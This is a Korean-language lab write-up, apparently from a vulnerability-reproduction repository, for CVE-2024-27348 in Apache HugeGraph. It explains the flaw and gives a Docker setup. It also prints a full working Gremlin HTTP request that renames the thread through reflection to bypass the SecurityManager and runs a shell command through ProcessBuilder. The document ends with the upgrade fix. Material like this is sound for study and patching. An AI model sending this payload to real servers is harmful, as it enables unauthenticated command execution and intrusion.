

# CVE-2024-27348

# 취약점 개요
CVE-2024-27348은 Apache HugeGraph의 Gremlin API에서 발생하는 원격 코드 실행 취약점이다. 취약한 환경에서는 인증 없이 Gremlin-Groovy 스크립트를 실행할 수 있으며, 공격자는 Java Reflection을 이용해 현재 스레드 이름을 변경함으로써 SecurityManager의 검사를 우회할 수 있다. 이후 ProcessBuilder를 통해 서버 운영체제에서 임의의 명령을 실행할 수 있다.

참고 자료:

- <https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/>
- <https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348>
- <https://github.com/Zeyad-Azima/CVE-2024-27348>

## 환경 구성
취약한 Apache HugeGraph 1.2.0 서버를 실행하기 위해 아래 명령을 수행한다.

```
docker compose up -d
```

컨테이너가 실행된 후 다음 주소에서 HugeGraph RESTful API에 접근핤 수 있다.

```
http://your-ip:8080
```

## 취약점 재현

다음 HTTP 요청을 전송한다.

```
POST /gremlin HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 777

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```
해당요청의 수행과정은 아래와 같다.
1. 현재 실행중인 스레드(Thread)를 가져온다.
2. Java Reflection을 이용하여 스레드 이름을 SL7로 변경한다.
3. SecurityManager의 스레드 이름 기반 검사를 우회한다.
4. ProcessBuilder를 생성하여 Linux의 id 명령을 실행한다.
5. 명령 실행결과를 문자열로 변환하여 HTTP 응답으로 반환한다.



## 정리
CVE-2024-27348은 Gremlin API 보안 검사를 우회해 인증 없이 원격 명령 실행이 가능한 취약점이다. 이를 방지하기 위해서는 Apache HugeGraph-Server를 취약 버전인 1.0.0 이상 1.3.0 미만에서 1.3.0 이상으로 업그레이드해야 한다.
